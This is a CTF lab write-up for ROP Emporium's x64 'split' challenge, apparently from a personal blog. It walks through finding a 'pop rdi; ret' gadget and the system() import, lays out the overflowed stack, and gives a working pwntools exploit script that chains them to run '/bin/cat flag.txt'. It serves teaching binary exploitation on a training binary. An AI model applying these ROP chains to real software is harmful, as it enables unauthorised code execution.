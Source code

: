 ```yaml
---
layout: page
permalink: /ROP_emporium/ROP-x64-Challenge-2
title: ROP x64 Challenge 2
status: done
type: post
published: true
comments: true
date: 2022-07-13
---
```


## Challenge 2: Split
> The elements that allowed you to complete ret2win are still present, they've just been split apart.  Find them and recombine them using a short ROP chain.


This is the first challenge that really gets into the coolness of ROP exploits. 

Where before we just needed to execute the ret2win function, now there is no single place we need to return to. However, there are 2 parts of code (which are disconnected) that we need to execute in this binary. We first need to place a pointer to the "/bin/cat flag.txt" string into rdi (which is where the first argument to a function is stored) and then we need to cause a system call to happen. Luckily the string and system call already exist in the program so all we have to do is put them together.


When we search within [[pwndbg]] for ways to edit the value of $rdi we get the following:

```
pwndbg> ropper -- --search "pop rdi"
[INFO] File: /tmp/tmplhu8fdig
0x00007ffff7fec24b: pop rdi; jne 0x7ffff80675b8; add rdx, 8; add rax, 3; mov qword ptr [rdi], rdx; ret;
0x00007ffff7fd09c1: pop rdi; pop rbp; ret;
0x00000000004007c3: pop rdi; ret;
```
The pop instruction takes the top value on the stack and places it in the register. Since we control the stack with our buffer overflow, we can control that value and make it whatever we want. The last one shown is ideal for us in this situation as it doesn't cause another bad side effects.

When we print the functions we can also see a location for the system call.
```
[Imports]
nth vaddr      bind   type   lib name
―――――――――――――――――――――――――――――――――――――
1   0x00400550 GLOBAL FUNC       puts
2   0x00400560 GLOBAL FUNC       system

```

So what we want to do is run 2 instructions sets, the first starting at 0x40073c and then jump to 0x400560. Luckily the first 2 instructions end with a ret instruction which jumps to the instructions held at the top of the stack. So we want the stack to look like this

```
        | stack          |
        | -------------- |
8 bytes | start buffer   |
8 bytes | buffer         |
8 bytes | buffer         |
8 bytes | buffer         |
8 bytes | base pointer   |
8 bytes | pop rdi loc    | # gadget to control rdi
8 bytes | ptr to string  | # the value we want to place in rdi
8 bytes | system call loc| # the system call function we want to call
8 bytes | -------------- |

```


This stack overwrite causes the pwnme function to return to the pop rdi instruction. The location of the "/bin/cat flag.txt" string is then placed into the rdi register. The program then returns to the system call location and prints the flag.

```python
#!/usr/bin/python3

from pwn import *

io = process('./split')
# The amount to fill the buffer
junk = b'A' * 0x20
# The 8 bytes to fill the new base pointer from the leave
new_bp = p32(0xcafebabe)*2

# This is the vaddr of system
# First return to the location of the pop rdi
pop_rdi = p64(0x004007c3)

# The address of the "/bin/cat flag.txt"
addr_of_command = p64(0x00601060)

call_system = p64(0x00400560)
back_junk = b"B" * 20

payload = junk + new_bp + pop_rdi  + addr_of_command +  call_system
payload += back_junk

print("The payload is:")
print(payload)

input("Hit enter to apptempt exploit")
print(io.clean(0.5).decode("utf-8"))
io.send(payload)
print(io.clean(0.5).decode("utf-8"))
input("exploit sent hit enter to end")
sleep(1)
```

